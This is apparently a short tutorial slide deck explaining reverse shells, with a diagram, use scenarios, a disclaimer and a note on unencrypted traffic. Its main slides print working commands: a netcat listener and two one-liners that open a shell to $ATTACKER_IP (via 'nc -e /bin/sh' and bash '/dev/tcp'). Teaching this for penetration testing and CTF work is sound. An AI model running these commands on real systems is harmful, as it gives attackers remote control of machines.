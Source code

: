 ```yaml
---
theme: default
---
```


<style>
  code {
    @apply text-xs;
  }
</style>

# Reverse Shells for fun and profit
@nodeselector

---

# Why?

Problem: You have limited access to a machine and you want to get a shell. Solution: Reverse shell.

Scenarios:
- **Penetration Testing**: Demonstrating potential vulnerabilities in a system with the owner's permission.
- **Educational Purposes**: Know your enemy. Learn how attackers might gain access to your systems.
- **Troubleshooting Remote Systems**: If you have a remote machine that's behind a firewall or NAT, and need interactive access in order to debug it, this can be a useful technique.
- **Capture The Flag (CTF) Challenges**: Used to solve tasks in controlled environments designed for learning and competition.

Disclaimer: Don't do anything illegal or unethical. Please.

---

# What is it

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

```mermaid
graph TD
    A[Target] -->|Reverse Shell| B[Attacker]
```

For this to work, we must be able to establish a connection from the target machine to the attacker machine. But since we're talking about *egress* traffic, it's usually not blocked.

---

# Let's send it

Once we have a means to execute code on the target machine, we can send a reverse shell payload.

On the attacker machine:

```sh
nc -lvp 4444
```

On the target machine:

```sh
nc -e /bin/sh $ATTACKER_IP 4444
```

Or because we don't want to rely on the target machine having a version of netcat with exec support:

```sh
bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1
```

Now we're living off the land and have zero dependencies! (outside of network egress)

> ! Note: /dev/{tcp,udp} is not a real file, it's a bash feature (non-POSIX). Other shells may not support this.

---

# Concerns

- Traffic is not encrypted, though there are ways you could encrypt it. (e.g. netcat has some ssl support, you could use [stunnel](https://www.stunnel.org/), or ssh tunneling)